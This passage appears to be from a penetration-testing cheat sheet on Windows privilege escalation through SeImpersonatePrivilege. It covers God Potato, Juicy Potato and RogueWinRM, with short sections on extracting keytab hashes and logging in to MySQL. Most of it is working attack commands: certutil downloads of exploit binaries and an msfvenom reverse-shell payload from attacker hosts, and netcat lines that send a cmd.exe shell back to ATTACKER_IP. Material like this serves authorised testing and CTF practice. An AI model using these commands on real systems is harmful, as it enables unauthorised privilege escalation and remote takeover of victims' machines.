 After that, just wait for the cronjob to run to execute the script or you can run it yourself if you have the privs.

## Potatoes
First run whoami /priv and check you have SeImpersonatePrivilege

### God Potato
```
python3 -m http.server
certutil.exe -urlcache -split -f http://<attacker_IP>:80/god_potato.exe god_potato.exe
certutil.exe -urlcache -split -f http://<attacker_IP>:80/nc.exe nc.exe
rlwrap nc -lvnp 443
.\god_potato.exe -cmd "nc.exe <attacker_IP> 443 -e cmd.exe"
```
### Juicy Potato
Grab CLSID here: https://github.com/ohpe/juicy-potato/tree/master/CLSID -- run systeminfo and pick the proper ID for the server
```
# Run this to execute rev shell with msfvenom payload
certutil -urlcache -split -f http://10.10.14.26:80/JuicyPotato.exe JuicyPotato.exe
rlwrap nc -lvnp 31337
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.26 lport=31337 -f exe > rev_shell.exe
certutil -urlcache -split -f http://10.10.14.26:80/rev_shell.exe rev_shell.exe
certutil -urlcache -split -f http://10.10.14.26:80/JuicyPotato.exe JuicyPotato.exe
JuicyPotato.exe -l 1337 -p rev_shell.exe -t  * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

# Run this to execute netcat rev shell to attacker machine
# Run this on attacker machine
rlwrap nc -lvnp 8888

Run this on target machine after you transfer over nc.exe and JuicyPotato.exe
C:\Users\testuser\Documents> .\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\users\testuser\Documents\nc.exe -e cmd.exe <attacker_IP> 8888" -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
```
## RogueWinRM
For SeImpersonate and SeAssignPrimaryToken privs:
```
RogueWinRM.exe -p C:\windows\system32\cmd.exe
RogueWinRM.exe -p C:\windows\temp\nc.exe -a "ATTACKER_IP 8000 -e cmd"
RogueWinRM.exe -p "C:\windows\temp\nc.exe" -a "-e cmd.exe ATTACKER_IP 8000"
```

## KeyTabExtract - extract NTLM hashes from .keytab files
```
./keytabextract.py krb5.keytab
```

## MySQL - Internal
Use if acquired credentials on the target with a MySQL DB running:
```
mysql -u root -p

Use if authenticating remotely:
mysql -u root -psome_password -h 10.10.10.15(target_ip)
```
